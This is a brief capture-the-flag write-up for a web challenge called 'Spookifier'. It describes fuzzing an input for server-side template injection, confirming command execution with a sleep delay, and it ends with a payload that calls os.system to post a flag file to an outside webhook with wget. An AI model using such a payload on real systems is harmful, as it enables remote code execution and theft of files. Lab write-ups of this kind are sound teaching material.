



# Spookifier

We see a lightweight web page and can enter a string which is returned to us in fancy fonts.

I used Burp Suite and fuzzed the parameter with the `ssti.fuzz` list.

I compared the results and I noticed that in some payloads in the last field of the application I saw a `0`.

My guess was that the payload worked and the `0` is the successful exit code.

So I took the payload and replaced the `id` command with `sleep 10`.

I was able to successfully detect a time delay, so this proves that we can successfully issue system commands.

To exfiltrate the flage I used `webhook.site` and `wget`.

__Payload:__

`${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("wget --post-file=../flag.txt 'https://<webhook_url>'")}`

